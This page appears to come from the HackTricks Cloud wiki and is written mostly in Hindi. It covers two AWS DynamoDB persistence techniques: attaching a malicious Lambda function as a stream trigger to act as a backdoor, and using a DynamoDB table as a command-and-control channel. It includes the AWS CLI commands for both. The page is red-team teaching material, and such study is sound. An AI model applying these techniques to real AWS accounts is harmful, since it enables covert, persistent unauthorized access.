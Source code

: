 # AWS - DynamoDB Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### DynamoDB

अधिक जानकारी के लिए पहुँचें:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB Triggers with Lambda Backdoor

DynamoDB ट्रिगर्स का उपयोग करके, एक हमलावर एक **गुप्त बैकडोर** बना सकता है, एक तालिका के साथ एक दुर्भावनापूर्ण Lambda फ़ंक्शन को जोड़कर। Lambda फ़ंक्शन तब सक्रिय हो सकता है जब एक आइटम जोड़ा, संशोधित या हटाया जाता है, जिससे हमलावर को AWS खाते के भीतर मनचाहा कोड निष्पादित करने की अनुमति मिलती है।

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

स्थायीता बनाए रखने के लिए, हमलावर DynamoDB तालिका में आइटम बना या संशोधित कर सकता है, जो दुर्भावनापूर्ण Lambda फ़ंक्शन को ट्रिगर करेगा। इससे हमलावर को Lambda फ़ंक्शन के साथ सीधे इंटरैक्शन के बिना AWS खाते के भीतर कोड निष्पादित करने की अनुमति मिलती है।

### DynamoDB को C2 चैनल के रूप में

एक हमलावर DynamoDB तालिका का **कमांड और नियंत्रण (C2) चैनल** के रूप में उपयोग कर सकता है, आइटम बनाकर जिसमें कमांड होते हैं और समझौता किए गए उदाहरणों या Lambda फ़ंक्शनों का उपयोग करके इन कमांड को लाने और निष्पादित करने के लिए।
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
संपर्कित उदाहरण या लैम्ब्डा फ़ंक्शन समय-समय पर C2 तालिका में नए आदेशों की जांच कर सकते हैं, उन्हें निष्पादित कर सकते हैं, और वैकल्पिक रूप से परिणामों को तालिका में वापस रिपोर्ट कर सकते हैं। यह हमलावर को संपर्कित संसाधनों पर स्थायीता और नियंत्रण बनाए रखने की अनुमति देता है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
